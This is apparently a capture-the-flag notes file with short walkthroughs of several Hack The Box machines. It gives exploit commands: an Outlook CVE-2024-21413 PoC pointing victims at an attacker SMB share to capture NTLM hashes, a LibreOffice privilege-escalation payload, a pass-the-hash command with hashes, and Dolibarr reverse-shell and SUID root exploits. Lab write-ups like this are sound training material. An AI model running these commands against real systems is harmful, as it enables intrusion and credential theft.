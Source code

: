 `sudo /opt/..../runner2 tmp.json`
Now the `test.tar` part is an invalid file which throws error but specifically executing the `bash` part as root giving the root shell.

# HTB-Mailing
- Windows
- On the home webpage found a link that had `/download.php?file=....` which probably looks vulnerable to LFI.
- Now once we located the hmailserver software is installed, managed to find the location of the configuration file using ChatGPT=> `C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini` and located the administrator user hash and cracked it from `crackstation.com`.
- Now located a public exploit, `CVE-2024-21413`,
PoC Link: https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
`python3 CVE-2024-21413.py --server mailing.htb --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "administrator@mailing.htb" --recipient "maya@mailing.htb" --url "\\10.10.14.62/share" --subject "test"`
We just need to start `responder` and no need to host any smb share. So, when the user maya clicks on the share link, her NTLM hash is recieved as it by default tries to login using her NTLM credentials.
So, got it cracked and got `PowerShell` access using `evilwinrm` and got the user.txt file.
- Now located `libre` with version 7.4 and located a public privilege escalation exploit `CVE-2023-2255`. 
PoC Link: https://github.com/elweth-sec/CVE-2023-2255
`python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'`
So, using this added our user to administrators group and got this `exploit.odt` downloaded on the target and just opened it.
- Now got the NTLM hashes for other users using `CrackMapExec` using maya credentials.
- Now performed pass the hash using,
`impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"`
and got the root.txt.

# HTB-Boardlight
- Linux
- Found `Board.htb` mentioned on the homepage on port 80 and added it to `/etc/hosts`.
- Now running look for subdomains, found `crm.Board.htb` and added that too to `/etc/hosts`.
- Now there found `Dolibarr 17.0.0` where we located an reverseshell authenticated exploit poc. And for default creds we found `admin:admin` and used the poc and default creds to get reverse shell.
- Now located a `conf.php` file where we located the database passwd and tried ssh that to the home user `larissa` using the same passwd and got access.
- Now after running `linpeas.sh`, located a `enlightenment` SUID set binary and eventually found a poc exploit `CVE-2022-37706` and used it to get root shell.
Link: https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

# HTB-Blurry
- Linux
- My writeup available on Medium.
- Insecure Deserialization in ClearLM platform for initial foothold.
- Pytorch('pth') file to privilege escalation.
